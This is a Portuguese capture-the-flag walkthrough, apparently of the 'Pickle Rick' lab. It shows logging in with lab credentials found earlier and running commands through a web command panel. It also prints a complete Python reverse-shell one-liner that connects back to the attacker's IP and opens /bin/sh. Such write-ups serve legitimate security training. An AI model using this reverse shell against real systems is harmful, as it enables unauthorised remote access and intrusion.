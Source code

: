 Após olharmos as outras, não encontramos nada.... mas peraí, nós temos aquela palavra esquisita colocada no robots.txt, então entramos no /login.php e colocamos o login: R1ckRul3s e a senha: Wubbalubbadubdub e então KATCHAU!! Conseguimos entrar.

![images/image12]

Após entrarmos, podemos ver que temos um tal de Command Panel, poderia ser que fosse algum painel de administrador para executar comandos, então vamos tentar executar algo nele. Usei um comando básico do Linux, o ls, que serve para listar os arquivos existentes no diretório atual e então.... BINGO! Conseguimos mais URLs.

![images/image13]

Vamos dar uma checada em cada um... no primeiro, conseguimos algo. Temos que o super ingrediente secreto é o mr. meeseek hair, vamos guardar essa informação.

![images/image14]

Nos assets, vemos algumas configurações do sistema, porém nada de útil.

![images/image15]

Na clue, recebemos uma dica: "olhe ao redor dos arquivos do sistema para encontrar o outro ingrediente", então nós temos que entrar no sistema.

![images/image16]

No denied, não tinha nada demais, não vou colocar o print pois não havia nada.

Agora, iremos voltar para a página de comandos, ele está rodando Linux, ou seja, ele pode executar comandos e abrir portas, ou seja, nós podemos fazer um reverse secure shell. Vamos utilizar esse terminal para abrir o caminho para dentro do sistema, mas primeiro vamos testar para ver se ele nos dá permissão para fazer isso.

Após alguns testes, vemos que podemos usar o Python3 no terminal.

![images/image18]

Então, vamos fazer um reverse secure shell, procurando um pouco, nós achamos o Python reverse shell no Pentestmonkey. - python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("SEU IP", PORTA PARA SE ABRIR));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

![images/image19]

Mas nós precisamos dar uma editada, pois o IP ali não é o nosso.

![images/image20]

Para pegarmos o nosso IP, nós utilizaremos o seguinte comando: ip a s tun0. Por que utilizar assim é uma abreviação de ip addr show tun0. Tá, mas para que o tun0? É para pegarmos o IP associado à VPN.

![images/image21]
